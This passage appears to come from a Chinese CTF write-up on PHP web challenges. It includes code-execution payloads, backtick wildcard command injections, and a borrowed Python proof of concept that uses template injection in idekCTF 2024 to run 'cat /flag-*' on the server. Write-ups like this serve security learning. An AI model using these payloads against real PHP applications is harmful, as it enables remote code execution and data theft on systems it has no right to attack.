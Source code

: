 ```
$___($_[_]);   //ASSERT($POST[_])
```

方法四：通配符（本题不可行）

```
code=?><?=`??? ???`?>
```

```
code=?><?=`??? ???/???/????/???_????.???`?>
```

都抓不到flag 或者get_flag.php

Level 27 : PHP - 模板注入导致的RCE

idekctf 2024 [idekCTF 2024 报道 - Hamayan Hamayan](https://blog.hamayanhamayan.com/entry/2024/08/20/092636)

偷的别人的 poc [Idek ctf 2024 网络文章（后续） (zenn.dev)](https://zenn.dev/tchen/articles/83f26ca77948fa)

```python
import hashlib
import requests
from urllib.parse import quote

URL = "填你自己的"
cwd = '/app'



target_file = '../{Closure::fromCallable(system)->__invoke("cat /flag-*")}/../../pages/about'
w1 = requests.get(URL + "?page=" + quote(target_file))
print(w1.status_code)
print(w1.text)



filehash = hashlib.sha1(f"//{cwd}/pages/{target_file}{cwd}/templates/".encode())
template_c_file = filehash.hexdigest() + "_0.file_" + target_file.split("/")[-1] + ".php"
template_c_file_path = "../templates_c/" + template_c_file

w2 = requests.get(URL + "?page=" + template_c_file_path)
print(w2.status_code)
print(w2.text)
```
